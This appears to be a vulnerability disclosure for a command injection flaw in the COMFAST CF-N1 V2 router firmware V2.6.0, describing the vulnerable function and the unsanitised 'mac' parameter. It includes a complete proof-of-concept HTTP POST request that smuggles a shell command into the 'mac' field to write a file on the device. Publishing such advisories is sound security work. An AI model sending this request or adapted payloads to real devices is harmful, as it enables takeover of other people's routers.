 # COMFAST CF-N1 V2 V2.6.0 Command Injection in \`wireless\_device\_dissoc\`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `wireless_device_dissoc`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wireless_device_dissoc` API (`/usr/bin/webmgnt`, function `sub_415F54`). Attackers can inject arbitrary commands via the `mac` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_415F54` function handling the `wireless_device_dissoc` configuration. Disassembly analysis shows that the user-controlled `mac` parameter is unsanitized and directly incorporated into system commands via string formatting functions before execution by `system_0`.

Key code flow:



1.  User input (including `mac` and `ifname`) is parsed via `blobmsg_parse_0` and extracted as configuration parameters.

2.  The `mac` parameter is inserted into a command string (likely related to wireless device disassociation) using unvalidated string concatenation.

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct use of unfiltered input in command construction enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc  HTTP/1.1
Host: cflogin.cn
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"ifname":"127.0.0.1",  "mac":"; echo wireless_device_dissoc  > /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `mac`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "wireless\_device\_dissoc", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
